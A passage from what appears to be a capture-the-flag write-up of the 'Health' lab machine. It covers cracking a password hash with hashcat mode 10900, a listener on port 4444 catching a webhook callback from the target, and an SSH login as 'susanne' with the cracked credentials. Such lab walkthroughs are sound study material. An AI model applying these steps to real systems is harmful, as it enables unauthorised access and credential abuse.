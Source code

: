 -m is set to 10900 since our password format looks like this scheme here

Now time to go to the webhook and play around it again

![webhhoked.png](/Assets/Pictures/Health/webhhoked.png)

 Here is our result

```bash
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 42588
POST / HTTP/1.1
Host: 10.10.14.2:4444
Accept: */*
Content-type: application/json
Content-Length: 466

```

# User

Now with the ssh cracked password, let’s log into the box using those creds

```bash
➜  ssh susanne@10.10.11.176                                                                                                                                                                      
The authenticity of host '10.10.11.176 (10.10.11.176)' can't be established.                                                                                                                                                                
ED25519 key fingerprint is SHA256:K0WrmjTWDZhl/D/mYbJSv/cBLF1Jnx0T2auXQQDc7/Q.                                                                                                                                                              
This key is not known by any other names                                                                                                                                                                                                    
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                                                                                                    
Warning: Permanently added '10.10.11.176' (ED25519) to the list of known hosts.                                                                                                                                                             
susanne@10.10.11.176's password:                                                                                                                                                                                                            
```